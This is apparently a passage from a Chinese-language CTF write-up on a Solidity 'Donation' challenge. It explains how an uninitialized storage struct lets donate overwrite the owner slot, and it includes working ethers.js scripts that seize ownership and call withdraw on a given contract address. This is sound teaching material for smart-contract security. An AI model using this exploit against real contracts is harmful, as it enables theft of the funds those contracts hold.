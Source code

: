 返回, Check, 完成 ✅

---

###### Donation

这个题考察的类似于上面的 **存储位覆盖**, 即通过改变 owner, 来调用 `withdraw` 函数, 因为一般情况下, 我们无法调用 `withdraw` 函数, 因为 owner 不是我们的地址. 我们只能调用 donate 函数. 但是这个题的 bug 在于 在 Donate 函数中, 初始化 Donation 结构体的过程存在问题, 因为这里并没有表明是 memory 还是 storage, 因此默认为这是 storage, 这就代表着, 每一次运行 donate 函数, 都会重新创造一个 donation, 覆盖掉原来的值, 并且, 并且他的 slot 站位, 分别是 0, 1. 因为这个结构体有两个值, 第二个是 uint256 类型.

目前我们没有运行函数的时候, slot=1 存储的是 owner 这个地址, 但是当我们运行 donate 函数之后, slot=1 的位置 会变成 `etherAmount`. 基于此, 我们可以通过输入一个合适的 etherAmount 来使得 owner 等于我们自身的地址, 这样我们就可以运行 `withdraw`函数 . 由于合约在 etherscan 上没有验证开源, 所以这里用 ethers 调用.

Donate 函数的调用如下:

```javascript
async function main(){
    const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
    const wallet = new ethers.Wallet(process.env.PK,provider)
    let ABI = ["function donate(uint256 etherAmount)"]
    let iface = new ethers.utils.Interface(ABI)
    let amount = ethers.BigNumber.from(wallet.address)
    let value = amount.div(ethers.BigNumber.from(10).pow(36))
    const tx = {
      to : "0x27f80AB68c61b62855B997bcE101C4AdE918D022",
      data: iface.encodeFunctionData("donate", [amount]),
      value: value,
    }
    const hash = await wallet.sendTransaction(tx)
    await hash.wait()
    console.log(hash.hash)
}
```

Withdraw 函数的调用如下:

```javascript
async function main(){
    const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
    const wallet = new ethers.Wallet(process.env.PK,provider)
    let ABI = ["function withdraw()"]
    let iface = new ethers.utils.Interface(ABI)
    const tx = {
      to : "0x27f80AB68c61b62855B997bcE101C4AdE918D022",
      data: iface.encodeFunctionData("withdraw")
    }
    const hash = await wallet.sendTransaction(tx)
    await hash.wait()
    console.log(hash.hash)
}
```

返回 Check, 完成 ✅

---